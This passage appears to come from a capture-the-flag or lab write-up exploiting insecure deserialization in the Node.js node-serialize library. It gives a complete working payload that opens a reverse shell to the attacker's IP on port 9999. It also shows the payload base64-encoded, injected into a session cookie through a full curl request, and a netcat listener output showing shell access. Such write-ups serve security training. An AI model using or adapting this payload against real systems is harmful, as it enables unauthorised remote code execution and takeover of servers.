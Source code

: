 I removed all the whitespace and serialized the new payload:

```js
> serialize.serialize({"email": function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(9999, '10.11.31.199', function() { client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; }});

`{"email":"_$$ND_FUNC$$_function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(9999, '10.11.31.199', function() { client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; }"}`
>
```

Then we just add `()` again to make it a self-invoking function.

```json
{"email":"_$$ND_FUNC$$_function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(9999, '10.11.31.199', function() { client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; }()"}
```

Base64 encode the new payload:

```
eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXsgdmFyIG5ldCA9IHJlcXVpcmUoJ25ldCcpLCBjcCA9IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKSwgc2ggPSBjcC5zcGF3bignL2Jpbi9zaCcsIFtdKTsgdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7IGNsaWVudC5jb25uZWN0KDk5OTksICcxMC4xMS4zMS4xOTknLCBmdW5jdGlvbigpIHsgY2xpZW50LnBpcGUoc2guc3RkaW4pOyBzaC5zdGRvdXQucGlwZShjbGllbnQpOyBzaC5zdGRlcnIucGlwZShjbGllbnQpOyB9KTsgcmV0dXJuIC9hLzsgfSgpIn0KCg==
```

Put it inside the `curl`-command from before:

```bash
curl 'http://10.10.171.154/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: nb-NO,nb;q=0.9,no-NO;q=0.8,no;q=0.6,nn-NO;q=0.5,nn;q=0.4,en-US;q=0.3,en;q=0.1' --compressed -H 'Connection: keep-alive' -H 'Cookie: session=eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXsgdmFyIG5ldCA9IHJlcXVpcmUoJ25ldCcpLCBjcCA9IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKSwgc2ggPSBjcC5zcGF3bignL2Jpbi9zaCcsIFtdKTsgdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7IGNsaWVudC5jb25uZWN0KDk5OTksICcxMC4xMS4zMS4xOTknLCBmdW5jdGlvbigpIHsgY2xpZW50LnBpcGUoc2guc3RkaW4pOyBzaC5zdGRvdXQucGlwZShjbGllbnQpOyBzaC5zdGRlcnIucGlwZShjbGllbnQpOyB9KTsgcmV0dXJuIC9hLzsgfSgpIn0KCg==' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```

Finally we get the reverse shell:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.11.31.199] from (UNKNOWN) [10.10.171.154] 34254
ls
index.html
node_modules
package.json
package-lock.json
server.js

whoami
dylan
```
